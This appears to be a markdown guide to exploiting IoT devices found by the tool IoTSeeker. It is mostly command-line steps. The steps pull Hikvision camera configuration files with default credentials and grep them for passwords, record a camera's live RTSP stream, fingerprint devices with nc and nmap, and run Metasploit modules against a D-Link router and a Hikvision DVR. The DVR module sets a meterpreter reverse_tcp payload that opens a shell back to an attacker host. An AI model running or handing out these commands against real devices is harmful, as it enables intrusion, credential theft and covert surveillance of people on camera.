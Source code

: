 ### Exploiting Discovered Devices

Once vulnerable devices are identified, leverage specialized exploitation techniques:

```bash
# Example: Exploiting a vulnerable IP camera
# 1. First identify the model and check for known exploits
searchsploit hikvision

# 2. For cameras with default credentials, access the management interface
curl -u admin:admin http://192.168.1.100/System/configurationFile?auth=YWRtaW46YWRtaW4= --output config.backup

# 3. Extract credentials and device information from the configuration
grep -a "password" config.backup

# 4. Access the RTSP stream
ffmpeg -i rtsp://admin:admin@192.168.1.100:554/Streaming/Channels/101 -c copy evidence.mp4
```

### Device Fingerprinting Techniques

Enhance IoTSeeker with additional fingerprinting methods:

```bash
# Banner grabbing
nc -v 192.168.1.100 23
nc -v 192.168.1.100 80

# HTTP header analysis
curl -I http://192.168.1.100

# Service identification
nmap -sV -p 80,443,8080 192.168.1.100

# UDP service discovery (many IoT protocols use UDP)
nmap -sU -p 161,1900,5353 192.168.1.100
```

### Integration with Metasploit

For devices with known vulnerabilities, use Metasploit for exploitation:

```bash
# Launch Metasploit
msfconsole

# Example: Exploiting a vulnerable router
use auxiliary/scanner/http/dlink_dir_session_cgi_http_login
set RHOSTS 192.168.1.100
run

# Example: Exploiting IP camera backdoor
use exploit/linux/http/hikvision_dvr_rce
set RHOSTS 192.168.1.100
set PAYLOAD linux/armle/meterpreter/reverse_tcp
set LHOST 192.168.1.200
exploit
```
